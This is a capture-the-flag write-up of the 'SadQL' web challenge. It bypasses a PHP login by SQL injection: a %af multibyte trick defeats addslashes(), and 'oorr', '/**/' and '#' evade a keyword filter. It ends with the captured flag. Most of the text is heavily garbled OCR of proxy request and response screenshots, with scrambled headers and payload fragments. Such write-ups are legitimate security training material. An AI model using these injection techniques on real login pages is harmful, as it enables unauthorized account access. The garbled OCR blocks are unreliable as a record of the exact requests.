 # SadQL
> I do not know whether I should say that or not, but you must bypass the login in any way, but remember that forcing does not always work. (Make Your Choice)

## About the Challenge
We were given a website (without the source code) and we need to bypass the login page


[Image extracted text: Login
Login Form
CYBER WARGAMES
Arad
Security Championship
Email
EmaillUsername
Password:
Password
Login]


## How to Solve?
At first I tried to change to add `[]` on each parameter to see the error message. First i want to test `email` parameter


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
POST
[ sadql /
HTTP/1.1
HTTP/1-1
200
2 Host:
34
18
16-17
2 Dace:
Sat
Lug
2023 12.40.28
GHT
User-Agent
Hozilla/5
(Vindous
IT
10
Vine4 ;
264;
17:109
Gecko/FO1OO101
Server:
Apache/ 2 =
(Vine4)
OpenSSL/1-1It
PHP / 8 - 1.17
Firefox/115
X-Povered-By:
PHP /8 _
1.17
Accept
Cont ent
ength:
317
cexc/htrl
applicat
on / xhcaltxnl
applicat
on/xhl
47-0
9 ,image/avif
inage /vebp ,* /*;4-0
Conn
on:
close
Accept-Language
en-US
en ;
Cont ent -
Type
cexc
/htnl ;
charset=UTF -8
Lecept-Encoding:
gzip ,
deflace
Content-Type
applicat
on/ *-
UF
form-urlencoded
sbr
Content
Lengch:
Origin:
http: / /34
atal
error
Connect
on :
close
<b>
Re ferer
http
1/34- 18 _
16 _
17 /sadql/
Uncaught
TypeError:
addslashes ! :
Arcent
(sstring)
hust
be
of type
string,
12 Upgrade
Ins
cure-Requeses:
array
given
in
xanppx
hedocs
sadql index-php
Stack
crace:
email(ifcescepassvord-test
subnit-Login
xappx
hedocs
sadql
index-php ( 11 ,
addslashes (Array)
(main}
chroi
in
Kb >
C:xamppx htdocs
sadql
index
php
<b
on
line
<b>
Kfb
9F0 .]


As you can see, the source code use `addslashes()` function in email parameter, now lets try to add `[]` in the password parameter


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
POST
Isadql/ HTTP/1.1
HTTP/1-1
200
Host :
34-
18
16
Dace
Sat
2023
13.43.46
GHT
User-Agent
Hozilla/5
(Vindous
HT
Vine4;
364;
rv:109
Gecko/ZO1OO1OI
Server
Apache/ 2 _
(Vine4)
OpenSSL/1-1.lt
PHP / 8 - 1 - 17
Firefox/115
X-Povered-BY:
PHP /8 -1.17
Accept
Cont ent -
Length:
303
cext/htrl
applicat
on / xhcultxul
application/xnl
9 ,image/ avif,inage /vebp ,* /*;4-0
Conneccion:
close
Accept-Language
en-US
en; 4F0
Cont ent
Type:
cert/html;
charset=UTF-8
1ccept
Encoding:
gzip
deflace
Content-
Type
applicat
on / *-U-form-urlencoded
<p1
Content
Lengch:
Origin
http
1/34
Fatal
error
Connect
on :
close
4b>
Referer
1/34 _
18 _
16-17/sadql/
Uncaught
TypeError:
md5 ( :
Ar cuent
(sstring)
must
be
of
type
string,
array
Upgrade
Ins
cure-Requeses:
given
in
C: xamppx
hedoes
sadql
index.php
13
Stacl
crace:
email-testEpassvord[ ]-test
subnic-Login
12
appx
hedocs
adql
index-php (121
nd5 (Array)
(main}
chrox
1n
C: xamppx htdocs
sadql
index-php
4/b>
line
4o>
</b>
<b1
Aug
4-0
hetp-]


And in the password parameter, the source code using `md5()` function. And I searched on google about SQL injection if the program using `addslashes()` and I found this useful [website](http://www.securityidiots.com/Web-Pentest/SQL-Injection/addslashes-bypass-sql-injection.html). So I added `%af` into the SQL injection payload


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
POST
[ sadql /
HTTP/1.1
HTTP/1-1
200
Host
34
18.16-17
2 Dace:
Sat
Lug
2023 12:50; 36
GHT
User-Agent
Hozilla/5 - 0
(Vindous
IT
10
Vine4;
264;
17:109
Gecko/FO1OO101
Server:
Apache/ 2 =
(Vine4)
OpenSSL/1-1
lt
PHP / 8 . 1 -17
Firefox/115
X-Povered-By:
PHP /8 _
17
Accept
Cont ent
ength:
496
cexc/htrl
application/xhcnltxnl, applicat
on / xhl
47-0 ,9
image/ avif
inage /vebp ,* /*;4-0
Connect
on;
Accept-Language
En _
US
en ;
Cont ent -
Type
cert/htul
charset=UTF -8
1ccept -
Encoding:
gzip ,
deflace
Content
Type
applicat
on / *--form-ur lencoded
sbr
Concent-Lengch:
Origin:
http
1/34
Fatal
error
Connect
on :
close
<b>
Referer
http
1/34- 18 _
16.17/sadql/
Uncaught
nysqli
sql
except
on:
You have
error
in
your
SQL syntax;
check
che
Upgrade
Insecure-Requescs:
anual
chac
corresponds
your HariaDB
server
Version
for
che
right
syntax
0
4se
near
crue-
AI
passuord
098fEbcd46214373cade4e83262764f6
line
1n
enail-taf
crue
Fpassword-cestesubnit-Login
xacpp%
hcdocs
sadql
index-php
Stacl
crace:
xappx
hedocs
sadql
index-php ( 15 |
Lysqli
query (Object (#ysqli) _
SELECT
FROH
(hain}
throw
in
C:xanppx hedocs
sadql
index-php
Kfb>
on
line
15
4/b>
Sbr
close
4=0]


But that's weird, why the website output was like this?

```
:  Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'true---' AND `password`='098f6bcd4621d373cade4e832627b4f6'' at line 1 in C:\xamppx\htdocs\sadql\index.php:15
```

It looks like there are another filter that we needed to bypass again. I tried to stack the query, so for example from `or` to `oorr` and I changed the space into `/**/`. And in the end we also need to change the comment from `-- -` to `#`


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
POST
[sadql/
HTTP/1.1
HTTP/ 1-1
200
Host :
34
18
16
17
2 Date:
Fri
Lug
2023
18:12.43
GHT
User-Agent
Hozilla/5
(Vindous
IT
10.0;
Vin64;
{64;
17:109
Geclo/:O100101
Server:
Apache/ 2 _
(Vin64)
OpenSSL/I-1It
PHP / 8 - 1.17
Firefor/115
X-Povered-By:
PHP / 8 _
Aecept
Content
engch:
2117
cext / html
applicat
on / xhthltxul , applicat
on/ <ul
F0
image / avif
1nage /vebp
1*{9=0
Connection:
close
Content -
Type
cexc/henl;
charset-UTF-8
Lccept-Language
en-US
en ;
Aecept
Encoding:
szip
deflace
aduinlSCVG
SqL_INj 3ctlon
1s
VaBy_Esay_AId_Funyyyyry! } < !DOCTTPE
hcml?
Content
Type
applicat
on / *-IU -
IorMcUL
encoded
10
chtml>
Content-
Lengch:
shead>
Origin:
http: / /34
17
<neta
charset=
u f-8 "
Connect
on:
close
scitle>
Re ferer: http
1/34 _
18_
16-17/sadql/
Login Page
Upgrade
Ins
cue-
Requests:
<[cicle
style>
emailstaf
1**[oorr/t* /true
Epassvord-dasubnit-Login
15
body (
16
background-color
Ff7f7f7;
font
fahily:sans
serif;
18
19
container {
max-vidth: 40Opx
margin: SOpxauco
padding: ZOpx
23
background-color
#fff;
24
border
adius
Spx
25
box-shadou
OO1Opxrgba(0
0,0,0.21
26
9-0]


```
adminASCWG{SqL_1Nj3ct1on_1s_V3Ry_Esay_ANd_Funyyyyyy!}
```